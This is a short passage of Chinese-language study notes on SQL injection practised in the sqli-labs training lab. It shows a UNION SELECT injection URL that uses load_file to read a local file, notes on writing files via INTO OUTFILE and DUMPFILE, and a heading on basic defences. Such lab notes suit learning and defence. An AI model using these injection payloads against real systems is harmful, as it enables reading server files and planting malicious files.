         - ![](图片/Pasted%20image%2020241026132849.png)
        - 
- http://localhost/sqli-labs/Less-2/?id=-2%20union%20select%201,2,load_file(%27/Users/boshanghanyancui/Desktop/01-web%E9%9D%B6%E5%9C%BA%E5%AE%89%E8%A3%85/%E6%89%80%E6%9C%89%E5%AE%89%E8%A3%85%E6%95%99%E7%A8%8B%E5%9C%B0%E5%9D%80.txt%27)
- ![](图片/Pasted%20image%2020241025233447.png)
- 写入文件
    - 使用函数：`Into Outfile`（能写入多行，按格式输出）和 `into Dumpfile`（只能写入一行且没有输出格式）
    - outfile 后面不能接0x开头或者char转换以后的路径，只能是单引号路径
# 基础防御
## 魔术引号
